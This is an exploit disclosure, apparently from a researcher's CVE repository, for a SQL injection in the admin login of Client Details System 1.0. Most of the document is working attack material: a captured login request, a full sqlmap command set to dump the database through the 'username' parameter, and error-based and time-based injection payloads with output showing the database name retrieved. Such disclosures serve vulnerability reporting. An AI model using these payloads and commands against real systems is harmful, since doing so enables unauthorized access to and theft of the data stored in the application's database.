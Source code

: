 # Client_Details_System-SQL_Injection_2
+ **Exploit Title:** Client_Details_System-SQL_Injection_2
+ **Date:** 2023-26-12
+ **Exploit Author:** Hamdi Sevben
+ **Vendor Homepage:** https://code-projects.org/client-details-system-in-php-with-source-code/
+ **Software Link:** https://download-media.code-projects.org/2020/01/CLIENT_DETAILS_SYSTEM_IN_PHP_WITH_SOURCE_CODE.zip
+ **Version:** 1.0
+ **Tested on:** Windows 10 Pro + PHP 8.1.6, Apache 2.4.53
+ **CVE:** CVE-

## References: 

## Description:
Client Details System 1.0 allows SQL Injection via parameter 'username' in "/clientdetails/admin". Exploiting this issue could allow an attacker to compromise the application, access or modify data,  or exploit latest vulnerabilities in the underlying database.

## Proof of Concept:
+ Go to the Admin Panel: "http://localhost/clientdetails/admin/"
+ Fill User Id and Password.
+ Intercept the request via Burp Suite and send to Repeater.
+ Copy and paste the request to a "r.txt" file.
+ Captured Burp request:
```
POST /clientdetails/admin/ HTTP/1.1
Host: localhost
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: en-us,en;q=0.5
Cache-Control: no-cache
Content-Length: 313
Content-Type: application/x-www-form-urlencoded
Referer: http://localhost/clientdetails/admin/
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.127 Safari/537.36

username=admin&login=&password=P@ssw0rd
```

+ Use sqlmap to exploit. In sqlmap, use 'username' parameter to dump the database. 
```
python sqlmap.py -r r.txt -p username --risk 3 --level 5 --threads 1 --random-agent tamper=between,randomcase --proxy="http://127.0.0.1:8080" --dbms mysql --batch --current-db
```

```
---
Parameter: username (POST)
    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: username=admin' AND (SELECT 6680 FROM(SELECT COUNT(*),CONCAT(0x7162716271,(SELECT (ELT(6680=6680,1))),0x716b767171,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- zYzR&login=&password=P@ssw0rd

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: username=admin' AND (SELECT 7749 FROM (SELECT(SLEEP(5)))ysnA)-- MdSB&login=&password=P@ssw0rd
---
[15:08:19] [INFO] the back-end DBMS is MySQL
web application technology: PHP 8.1.6, Apache 2.4.53
back-end DBMS: MySQL >= 5.0 (MariaDB fork)
[15:08:20] [INFO] fetching current database
[15:08:20] [INFO] retrieved: 'loginsystem'
current database: 'loginsystem'
```

+ current database: `loginsystem`
![2](https://github.com/h4md153v63n/CVEs/assets/5091265/8fcb4ea7-ff09-4ea1-b8e7-5730ce9a41a8)

